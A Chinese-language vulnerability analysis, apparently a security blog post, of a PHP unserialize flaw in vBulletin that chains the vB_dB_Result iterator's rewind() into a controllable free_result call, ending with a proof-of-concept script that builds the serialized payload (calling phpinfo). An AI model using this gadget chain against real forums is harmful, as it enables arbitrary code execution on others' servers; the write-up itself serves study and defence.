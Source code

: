 通过反序列化，我们可以使之能生成在执行环境上下文中已经定义好了的类实例，并通过寻找一个含有`__wakeup()`或者`__destruct()`魔术方法存在问题的类来进行利用。然后原文中所提到的利用方法并不是这样，其使用的是继承于 PHP 迭代器类型的`vB_dB_Result`类，由于`$args = @unserialize($arguments)`产生了一个迭代器`vB_dB_Result`类实例，因此在后面进行`foreach`操作时会首先调用其`rewind()`函数。

而在`rewind()`函数处理过程中，会根据实例变量状态进行调用：

```
public function rewind()
{
    if ($this->recordset)
    {
        $this->db->free_result($this->recordset);
    }

```

这里就可以通过反序列化来控制`$this->recordset`的值，并且`$this->db->free_result`最终会调用：

```
function free_result($queryresult)
{
    $this->sql = '';
    return @$this->functions['free_result']($queryresult);
}

```

`$this->functions['free_result']`原本的初始化值为`mysql_free_result`，但是由于反序列化的原因，我们也能控制`vB_dB_Result`类实例中的`db`成员，更改其对应的`functions['free_result']`为我们想要执行的函数，因此一个任意代码执行就产生了。

0x01 利用分析和完善
============

* * *

观察一下原文中提供的 Payload 构造 PoC：

```
<?php
class vB_Database {
       public $functions = array();
       public function __construct() {
               $this->functions['free_result'] = 'phpinfo';
       }
}    

class vB_dB_Result {
       protected $db;
       protected $recordset;
       public function __construct() {
               $this->db = new vB_Database();
               $this->recordset = 1;
       }
}    

print urlencode(serialize(new vB_dB_Result())) . "\n";

```
